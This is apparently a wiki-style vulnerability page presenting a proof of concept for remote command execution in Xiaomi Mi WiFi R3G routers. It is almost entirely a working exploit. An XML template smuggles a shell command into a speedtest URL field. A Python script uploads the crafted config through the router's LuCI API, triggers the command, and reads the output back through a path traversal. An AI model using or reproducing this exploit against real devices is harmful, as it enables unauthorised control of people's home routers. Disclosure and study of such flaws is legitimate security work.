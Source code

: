 <languages /> <translate>

漏洞影響
--------

</translate> Xiaomi Mi WiFi R3G 2.28.23-stable previous version

POC
---

### template.xml

    <?xml version="1.0"?>
    <root>
        <class type="1">
            <item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
            <item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
            <item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
            <item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
            <item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
            <item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
            <item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
            <item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
            <item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
            <item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
            <item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
            <item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
            <item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
            <item url="http://dl.ijinshan.com/safe/speedtest/FDFD1EF75569104A8DB823E08D06C21C.dat"/>
        </class>
        <class type="2">
            <item url="http://192.168.31.1 -q -O /dev/null;{command}>/tmp/1.txt; exit; wget http://192.168.31.1  "/>
        </class>
        <class type="3">
            <item uploadurl="http://www.taobao.com/"/>
            <item uploadurl="http://www.so.com/"/>
            <item uploadurl="http://www.qq.com/"/>
            <item uploadurl="http://www.sohu.com/"/>
            <item uploadurl="http://www.tudou.com/"/>
            <item uploadurl="http://www.360doc.com/"/>
            <item uploadurl="http://www.kankan.com/"/>
            <item uploadurl="http://www.speedtest.cn/"/>
        </class>
    </root>

### remote_command_execution_vulnerability.py

    import os
    import tarfile
    import requests

    # proxies = {"http":"http://127.0.0.1:8080"}
    proxies = {}

    ## get stok
    stok = input("stok: ")

    ## make config file
    command = input("command: ")
    speed_test_filename = "speedtest_urls.xml"
    with open("template.xml","rt") as f:
        template = f.read()
    data = template.format(command=command)
    # print(data)
    with open("speedtest_urls.xml",'wt') as f:
        f.write(data)

    with tarfile.open("payload.tar.gz", "w:gz") as tar:
        # tar.add("cfg_backup.des")
        # tar.add("cfg_backup.mbu")
        tar.add("speedtest_urls.xml")

    ## upload config file
    print("start uploading config file ...")
    r1 = requests.post("http://192.168.31.1/cgi-bin/luci/;stok={}/api/misystem/c_upload".format(stok), files={"image":open("payload.tar.gz",'rb')}, proxies=proxies)
    # print(r1.text)

    ## exec download speed test, exec command
    print("start exec command...")
    r2 = requests.get("http://192.168.31.1/cgi-bin/luci/;stok={}/api/xqnetdetect/netspeed".format(stok), proxies=proxies)
    # print(r2.text)

    ## read result file
    r3 = requests.get("http://192.168.31.1/api-third-party/download/extdisks../tmp/1.txt", proxies=proxies)
    if r3.status_code == 200:
        print("success, vul")
        print(r3.text)

<translate>

參考
----

</translate> <https://github.com/UltramanGaia/Xiaomi_Mi_WiFi_R3G_Vulnerability_POC/blob/master/report/report.md>